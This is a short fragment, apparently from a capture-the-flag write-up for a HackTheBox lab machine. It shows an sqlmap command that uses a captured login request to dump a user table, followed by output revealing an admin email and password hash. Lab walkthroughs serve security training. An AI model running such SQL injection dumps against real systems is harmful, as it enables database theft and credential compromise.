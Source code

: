 ```bash
sqlmap -r login.req --batch -D main -T user --dump
```

```bash
Database: main
Table: user
[254 entries]
+-----+-------------------------+--------+--------------------------------------+
| id  | email                   | name   | password                             |
+-----+-------------------------+--------+--------------------------------------+
| 1   | admin@goodgames.htb     | admin  | 2b22337f218b2d82dfc3b6f77e7cb8ec     |
+-----+-------------------------+--------+--------------------------------------+
```